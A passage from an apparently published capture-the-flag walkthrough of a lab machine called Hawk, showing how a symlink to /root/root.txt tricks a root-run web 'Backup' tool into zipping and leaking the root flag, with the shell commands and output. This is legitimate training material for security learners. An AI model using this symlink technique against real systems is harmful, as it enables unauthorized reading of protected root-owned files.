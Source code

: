 ### Root #1 - Read Files As Root Via Backup

A quick way to get the root flag is to take advantage of an information disclosure vulnerability. At the top of the page is a link to “Tools”, which takes me to this page:

![1531995526232](https://0xdfimages.gitlab.io/img/1531995526232.png)

Some of the tools require usename and password, but others don’t, including the “Backup” function:

![1543523814177](https://0xdfimages.gitlab.io/img/1543523814177.png)

This function will look for .db files in a target directory as root, and save them in a zip.

I’ll first prep the environment by creating a symbolic link to the file I want to read:

```

daniel@hawk:~/.a$ ln -s /root/root.txt t.trace.db

daniel@hawk:~/.a$ ls -la
total 12
drwxrwxr-x 2 daniel daniel 4096 Aug  2 17:45 .
drwxr-xr-x 6 daniel daniel 4096 Aug  2 17:44 ..
lrwxrwxrwx 1 daniel daniel   14 Aug  2 17:45 t.trace.db -> /root/root.txt

```

Next, I’ll tell backup to backup that directory:

![1533232101327](https://0xdfimages.gitlab.io/img/1533232101327.png)

On hitting submit, it tells me it processed my file:

![1533232117902](https://0xdfimages.gitlab.io/img/1533232117902.png)

And I’ll find the file where I told it to be:

```

daniel@hawk:~/.a$ ls -la a
-rw-r--r-- 1 root root 175 Aug  2 17:45 a
daniel@hawk:~/.a$ file a
a: Zip archive data, at least v2.0 to extract

```

On bringing it back to my box, I get the flag:

```

root@kali# unzip -l backup.zip
Archive:  backup.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
       33  2018-08-02 17:45   root/root.txt
---------                     -------
       33                     1 file

root@kali# unzip backup
Archive:  backup.zip
  inflating: root/root.txt
root@kali# cat root/root.txt
54f3e840...

```
